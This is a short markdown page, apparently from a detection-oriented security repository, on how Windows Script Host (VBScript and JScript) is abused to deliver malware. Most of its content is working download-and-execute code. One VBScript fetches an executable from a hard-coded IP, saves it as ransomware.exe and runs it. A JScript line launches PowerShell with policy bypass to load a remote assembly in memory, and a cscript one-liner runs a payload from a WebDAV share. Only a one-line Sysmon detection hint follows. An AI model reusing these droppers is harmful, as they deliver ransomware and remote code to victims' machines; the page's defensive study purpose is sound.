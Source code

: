 ## WSH

> **Windows Script Hos**t (WSH)  is an automation technology for Microsoft Windows operating systems that provides scripting abilities comparable to batch files, but with a wider range of supported features
>
> **It is language-independent** in that it can make use of different Active Scripting language engines. By default, it interprets and runs plain-text **JScript** (.JS and .JSE files) and **VBScript** (.VBS and .VBE files). **Visual Basic for Applications** (VBA) is a third default scripting engine, installed with Microsoft Office.
>
> 
>
> -- Wikipedia



WSH uses 2 different executables Wscript.exe (Support GUI )and Cscript.exe(CLI)

WSH supports 

- VBScript
- JScript
- VBA

those scripting languages are like any languages, could be used to do solve some problem like any programming language or use in malicious way.

many languages need Interpreter to be able to run, any most of those interpreters are not installed by default, unlike WSH which is pre-installed on All windows version, so the langauge that WSH support were misused to create malicious scripts


**VBScript**

```vbscript
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://18.185.124.52/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")
```

Download ransinvoke.exe from internet and save it to the disk, then run it.



**JScript**

```vbscript
a = new ActiveXObject('Wscript.Shell');
cmd = "powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://18.185.124.52/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))";
a.Run(cmd,0);

```

```powershell
`cscript ``//E``:jscript \\webdavserver\folder\payload.txt`
```

Process performing network call: **svchost.exe**
Payload written on disk: **WebDAV client local cache**



### Detection

- sysmon
  - Process Create
    - Cscript.exe or Wscript.exe with command line contains the file which will be loaded



![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Rundll32/Misc/Mermaid.jpg)

### Reference

[Reference for VBScript] https://ss64.com/vb

[Many one Liners] https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/ 

